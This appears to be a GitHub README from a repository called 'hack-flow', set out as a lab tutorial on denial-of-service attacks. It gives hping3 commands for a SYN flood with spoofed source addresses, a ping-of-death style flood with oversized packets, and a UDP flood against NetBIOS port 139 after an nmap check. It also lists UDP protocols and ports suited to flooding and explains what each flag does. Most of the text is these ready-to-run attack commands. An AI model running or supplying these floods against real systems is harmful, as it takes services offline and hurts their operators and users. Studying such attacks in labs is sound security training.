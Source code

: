 SYN-attack

![1](https://github.com/Kr1shna02/hack-flow/assets/117007783/7654cca6-7cdf-44da-8d66-7dd70cdba58d)

- -S: sets the SYN flag; 
- -a: spoofs the IP address; 
- -p: specifies the destination port;
- --flood: sends a huge number of packets.

Traffic in target system
![2](https://github.com/Kr1shna02/hack-flow/assets/117007783/a7fc8bd1-7e1e-44f0-af1a-ef9aac90aa90)

 PoD attack -In ping we send huge data

command ```hping3 -d 65538 -S -p 21 --flood (Target IP Address)```
- -d: specifies data size;
- -S: sets the SYN flag;
- -p:destination port;
- --flood: sends a huge number of packets.
In wireshark in target machine we can check for the large packet flow.

 UDP application layer flood attack

 Scan the target

 ```nmap -p 139 (Target IP Address)```
  we will use NetBIOS port 139 to perform a UDP application layer flood attack. If 139 port is open start attack.

   Command ```hping3 -2 -p 139 --flood (Target IP Address)```
- -2:specifies UDP mode

Some of the UDP based application layer protocols that attackers can employ to flood target networks include:

+ CharGEN (Port 19)
+ SNMPv2 (Port 161)
+ QOTD (Port 17)
+ RPC (Port 135)
+ SSDP (Port 1900)
+ CLDAP (Port 389)
+ TFTP (Port 69)
+ NetBIOS (Port 137,138,139)
+ NTP (Port 123)
+ Quake Network Protocol (Port 26000)
+ VoIP (Port 5060)
